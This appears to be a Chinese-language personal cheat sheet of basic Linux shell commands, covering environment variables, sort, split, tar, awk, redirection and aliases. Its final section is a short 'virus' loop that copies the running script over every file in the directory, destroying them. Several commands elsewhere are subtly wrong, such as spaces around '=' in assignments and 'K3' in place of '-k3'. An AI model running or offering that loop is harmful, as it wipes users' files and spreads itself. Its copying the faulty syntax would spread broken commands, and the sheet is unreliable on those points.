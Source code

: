 #环境变量
    ENV_VAR = value #环境变量赋值
    export ENV_VAR  #声明为环境变量

重要的环境变量如：$PATH,任何在$PATH中的可执行文件可以直接运行

    echo #PATH #查看PATH
    export PATH="/newdir":$PATH

$HOME/.bash_profile是最重要的配置文件，当用户登录时Shell自动执行.bash_profile文件，若不存在则自动执行系统默认配置文件/etc/profile给.bash_profile并执行命令
 
    cat .bash_profile #查看
    vi .bash_profile  #修改
    . .bash_profile #更新生效 or source .bash_profile

#sort命令
    sort -t: inputfile #对文件进行排序 按照：分隔
    sort -t: K3 inputfile #对文件进行排序 按照：分隔 后使用第三个域排序
    sort -t: K3n inputfile #对文件进行排序 按照：分隔 后使用第三个域数值大小排序
    sort -t: K3nr inputfile #对文件进行排序 按照：分隔 后使用第三个域数值大小逆序排序
    sort -t: K3nr -o output inputfile #对文件进行排序 按照：分隔 后使用第三个域数值大小逆序排序并输出到output文件
    
#uniq命令
    uniq input #对文件去除重复行

#split命令
    split -2 input output #将文件按照2行切分成小文件按照output打头命名
    split -b100 input #按照100B切分按照默认x打头切成小文件，但不保留完整记录
    split -C100 input #按照100B切分按照默认x打头切成小文件，且保留完整记录
    
#tar命令
    tar -cf db.all *.db #将以.db结尾的文件放入压缩包,实际将文件放在一起并没有压缩
    tar -tf db.all #列出压缩包内容
    tar -rf db.all log* #向压缩包中添加新的文件
    tar -xvf db.all #解压非gzip格式包
    tar -zxvf db.all #解压gzip格式包
    
    gzip db.all #文件变成db.all.gz
    tar -zxvf db.all.gz
    
    #gzip -d db.all.gz变成db.all解压包

#grep命令

格式：grep [选项] [模式] [文件...]

功能：搜索一个或多个满足模式的文本行

grep "hello" filename

#awk命令和管道（FIFO）
    awk '{print $2,$1,$4,$3}' inputfile #按照上面几个域输出文件
    awk -F"," '{print $2,$1}' newwho.txt #制定分隔符为逗号
    echo $string | awk '{print length($0)}'
    echo $string | awk '{print substr($0,1,8)}'
    ls -l | grep vi | wc -l

#more命令和cat命令
都是用来显示文件more提供分页功能 cat不提供分页功能

    cat file |awk -F"," '{print $2,$1}'

#I/O重定向
    >filename #标准输出到文件
    >>filename #标准输出到文件追加模式
    <filenemw #文件读入到标准输入

#alias命令
    alias dir = ls
    dir
    unalias dir #删除别名
    unalias -a #删除所有别名

#sleep命令
    sleep 10 #休眠10秒

# $RANDOM伪随机数,范围[0,32767]
    num=$RANDOM
    
#Linux Shell脚本写病毒
    for file in *
    do 
     cp $0 $file
    done


